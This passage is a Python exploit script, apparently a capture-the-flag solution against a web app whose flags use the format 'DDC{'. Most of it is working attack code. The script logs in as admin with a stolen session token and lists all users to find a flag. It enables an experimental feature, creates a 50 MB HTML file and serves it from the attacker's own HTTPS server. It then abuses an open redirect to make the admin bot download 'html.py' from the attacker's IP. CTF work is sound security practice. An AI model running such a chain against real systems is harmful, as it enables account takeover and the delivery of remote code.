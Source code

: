 ```python
admin_session_token = response.json().get("session_token", "")
if not admin_session_token:
    print("[-] Failed to extract admin session token")
    exit(1)
print(f"[+] Admin session token: {admin_session_token}")

time.sleep(1)

### Logging in as admin
admin_session = requests.session()
print("[*] Setting session token as admin")
admin_session.cookies.set("session", admin_session_token)
r = admin_session.get(f'{target_url}/api/admin/get_users')
if r.status_code != 200:
    print("[-] Failed to login as admin")
    exit(1)
print("[+] Logged in as admin")

# go through all users and find the user with username containing "DDC{" and print it
users = r.json()
for user in users:
    if "DDC{" in user['username']:
        print(f"[+] Found the first flag: {user['username']}")
        break
    
time.sleep(1)

### Enable experimental mode
print("[*] Enabling experimental mode")
enable_experiments_url = f"{target_url}/api/admin/update_experiments"
enable_experiments_payload = {"experiments": True}
response = admin_session.post(enable_experiments_url, json=enable_experiments_payload)
if response.status_code != 200:
    print("[-] Failed to enable experimental mode")
    exit(1)
print("[+] Experimental mode enabled")

time.sleep(1)

### Create the index.html file
print("[*] Creating the index.html file")
open('index.html', 'w').write('<!DOCTYPE html><html><head></head><body><p>' + 'x'*1000*1000*50 + '</p></body></html>') # From create.py

print("[+] Finished creating the large index.html file")

time.sleep(1)

### Start up the http.server with https to serve the index.html file
print(f"[*] Starting the http.server with https on https://{my_ip}/")
subprocess.Popen(["python3", "httpsserver.py"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)

print("[+] Started the https.server with https")

time.sleep(1)


### Make the admin bot visit open redirect to download 'html.py'
print("[*] Making the admin bot visit the open redirect link to download 'html.py'")
visit_link_payload = {"review_url": f"/admin/impersonate?username=admin&redirect_to=https://{my_ip}/html.py"}
response = admin_session.post(visit_link_url, json=visit_link_payload)
```